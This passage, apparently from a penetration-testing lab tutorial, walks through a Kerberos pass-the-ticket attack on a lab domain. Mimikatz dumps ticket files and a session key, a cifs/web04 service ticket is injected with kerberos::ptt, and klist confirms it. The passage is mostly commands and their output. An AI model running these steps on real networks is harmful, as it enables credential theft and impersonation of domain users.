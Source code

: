 ```

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/14/2022 6:24:17 AM ; 9/14/2022 4:24:17 PM ; 9/21/2022 6:24:17 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP ; @ CORP.COM
           Client Name  (01) : dave ; @ CORP.COM ( CORP )
           Flags 40c10000    : name_canonicalize ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             f0259e075fa30e8476836936647cdabc719fe245ba29d4b60528f04196745fe6
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;1f1626]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi !
...
```

We can verify newly generated tickets with **dir**, filtering out on the **kirbi** extension.

```shell
PS C:\Tools> dir *.kirbi


    Directory: C:\Tools


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;12bd0]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c6860]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c6860]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c7bcc]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c7bcc]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c933d]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c933d]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1ca6c2]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1ca6c2]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
...
```

As many tickets have been generated, we can just pick any TGS ticket in the dave@cifs-web04.kirbi format and inject it through mimikatz via the **kerberos::ptt** command.

```
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

* File: '[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi': OK
```

No errors have been thrown, meaning that we should expect the ticket in our session when running **klist**.

```shell
PS C:\Tools> klist

Current LogonId is 0:0x13bca7

Cached Tickets: (1)

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami